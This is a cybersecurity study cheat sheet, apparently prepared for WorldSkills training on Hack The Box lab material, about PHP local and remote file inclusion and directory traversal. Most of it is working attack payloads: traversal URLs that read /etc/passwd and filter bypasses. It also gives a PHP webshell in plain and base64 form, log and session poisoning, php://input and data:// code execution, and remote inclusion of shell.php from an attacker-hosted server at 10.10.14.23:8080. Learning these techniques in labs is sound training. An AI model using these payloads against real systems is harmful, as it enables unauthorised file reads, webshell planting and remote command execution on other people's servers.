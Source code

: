 <[Back to Main Page](https://github.com/ChristopherFitzsimons/WorldSkills2022Cybersecurity)

# FILE INCLUSION / DIRECTORY TRAVERSAL
Creared by Christopher Fitzsimons  

Usefull link:  
https://academy.hackthebox.com/course/preview/file-inclusion--directory-traversal/local-file-inclusion  

## Quick Examples
"index.php?language=../../../../../../../../../etc/passwd"  
"index.php?language=....//....//....//....//....//....//....//....//etc/passwd"  
....// = %2e%2e%2e%2e%2f%2f  

"index.php?language=/var/lib/php/sessions/sess_m5ndjtun75qonlshccvhhuq4rt"  
"index.php?language=<?php system($_GET['cmd']); ?>"  
"index.php?language=/var/lib/php/sessions/sess_m5ndjtun75qonlshccvhhuq4rt&cmd=whoami"  

Base encoded PHP webshell  
```bash
echo '<?php system($_GET['cmd']); ?>' | base64
"index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=&cmd=id"
```

```bash
echo '<?php system($_GET['cmd']); ?>' > exec.php
zip malicious.zip exec.php
rm exec.php
```

```bash
python3 -m http.server 8080
```
"index.php?language=http://localhost:8080/shell.php"  
"index.php?page=php://filter/read=convert.base64-encode/resource=index"  
"index.php?language=http://10.10.14.23:8080/shell.php&cmd=cat /exercise/flag.txt"  

The output of the command id can be seen in the image above. Some other files that can be included based on the scenario are /var/log/nginx/access.log, /var/log/apache2/access.log, /var/log/sshd.log, /var/log/mail, and /var/log/vsftpd.log.  

## Notes
### Local File Inclusion
What is Local File Inclusion:  
File inclusion vulnerabilities can often be found in GET request parameters. Server-side scripts include certain files based on the user's choice or input, for example, file downloads, choice of language, or website navigation.  

This attack can be done when there is an input on the URL where it will find a file and include it in the website. For example "index.php?language=es.php" You can then change this to be "index.php?language=/etc/passwd" which will include the passwd file instead of the php file.  

The verbose error returned shows us the string passed to the include() function, stating that there is no /etc/passwd in the languages folder. This restriction can be bypassed by traversing directories using a few ../ before the desired file name.
Example "index.php?language=../../../../../../../../../etc/passwd"  

Instead, prefixing a / before the payload will bypass the filename and traverse directories instead.
Example "index_2.php?language=/../../../../../etc/passwd"  

Scripts can employ search and replace techniques to avoid path traversals. For example:  
$language = str_replace('../', '', $_GET['language']);  
This will attempt to replace the traversal attack.  
You can try and get arorund this by adding an extra ....// and the script will remove ../ leaving ../  
Example "index.php?language=....//....//....//....//....//....//....//....//etc/passwd"  

On PHP versions 5.3.4 and earlier, string-based detection could be bypassed by URL encoding the payload. The characters ../ can be URL encoded into %2e%2e%2f, which will bypass the filter.  
In the last example ....// can be URL encoded into %2e%2e%2e%2e%2f%2f.  

### LFI to Remote Code Execution  
PHP provides various wrappers, which can be used for easier access to files, protocols, or streams. A list of wrappers can be found here. The php:// wrapper is enabled by default and interacts with IO streams. For example: php://stdin and php://stdout can be used to access input and output streams for the process, while php://input and php://output are used to access request data. One handy wrapper is php://filter, which can be chained with multiple filters to achieve the desired output.  

For example, the filter php://filter/read=/resource=/etc/passwd reads the resource /etc/passwd and outputs the contents. The read filter can process the input with various string operations, such as base64 encoding, ROT13 encoding, etc.  

The following filters will convert the contents of /etc/passwd to base64 and ROT13, respectively.  
Example "index.php?language=php://filter/read=convert.base64-encode/resource=config"  

PHP versions before 5.5 are vulnerable to null byte injection, meaning that adding a null byte at the end of the filename should bypass the extension check. For example: language=/etc/passwd%00 will result in the statement include("/etc/passwd%00.php"), where the server ignores everything after the null byte.  

With remote file inclusions you can use tools like burpsite to inject PHP code into log files or internal files. This allows us to run our system commands on the box.  
For example we run the request "index.php?language=/var/log/apache2/access.log" and we can change the User Agent to "<?php system($_GET['cmd']); ?>" which whill allow us to inject our system commands into the php page.  
The next request we send reading access.log we will pull the php and we add the cmd=... which will specify our command.  
Example "index.php?language=/var/log/apache2/access.log&cmd=cat%20/exercise/flag.txt"  

"index.php?language=/var/lib/php/sessions/sess_m5ndjtun75qonlshccvhhuq4rt"  
"index.php?language=<?php system($_GET['cmd']); ?>"  
"index.php?language=/var/lib/php/sessions/sess_m5ndjtun75qonlshccvhhuq4rt&cmd=whoami"  

### Other PHP Wrappers
The expect wrapper in PHP helps in interaction with process streams. This extension is disabled by default but can prove very useful if enabled. For example, the following URL will return the output of the id command.  

The data wrapper can be used to include external data, even PHP code. It's possible to use this only if the allow_url_include setting is enabled in the PHP configuration.  
"index.php?page=php://filter/read=convert.base64-encode/resource=index"  

Base encoded PHP webshel
```bash
echo '<?php system($_GET['cmd']); ?>' | base64
http://blog.inlanefreight.com/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=&cmd=id
```

Similar to the data wrapper, the input wrapper can be used to include external input and execute code. It also needs the allow_url_include setting enabled.  
```bash
curl -s -X POST --data "<?php system('id'); ?>" "http://134.209.184.216:30084/index.php?language=php://input" | grep uid
```

The zip wrapper can prove useful in combination with file uploads.  
```bash
echo '<?php system($_GET['cmd']); ?>' > exec.php
zip malicious.zip exec.php
rm exec.php
```

### Remote File Inclusion
Remote File Inclusion or RFI occurs when wensites allow the inclusion of remotly hosted files. For example the files localy on the attackers device or C2 server.  

To include a remote file in PHP, the allow_url_fopen setting (enabled by default) and allow_url_include setting have to be turned on. Start a python HTTP server on port 8080 on localhost and then pass a URL to it through the language parameter.  
Example: "index.php?language=http://localhost:8080/file"  

Next, use the ftp:// scheme to access shell.php present in the FTP root.  
"index.php?language=ftp://user:pass@localhost/shell.php&cmd=id"  
When the application is running on Windows, the restrictions applied by allow_url_include can be bypassed by using the SMB protocol.  
